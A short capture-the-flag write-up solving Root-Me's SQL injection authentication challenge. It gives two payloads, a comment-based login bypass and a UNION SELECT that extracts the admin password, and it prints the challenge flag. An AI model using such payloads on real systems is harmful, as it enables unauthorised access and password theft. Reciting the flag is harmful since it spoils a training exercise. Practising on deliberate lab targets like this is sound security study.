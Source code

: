 ```yaml
---
title: SQL injection - Authentication
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 30
* Link: [https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)

## Statement

> Retrieve the administrator password

## Solution

```
username: admin' --
password: <any dump things here>
```

Then it will show admin's information, but password is in bullet. View source code to get it.

The flag is
```
t0_W34k!$
```

Another way is
```
username: admin
password: ' union select password, username from users where username = 'admin
```

**Note**: ```username``` is ```admin```. ```administrator``` will not work!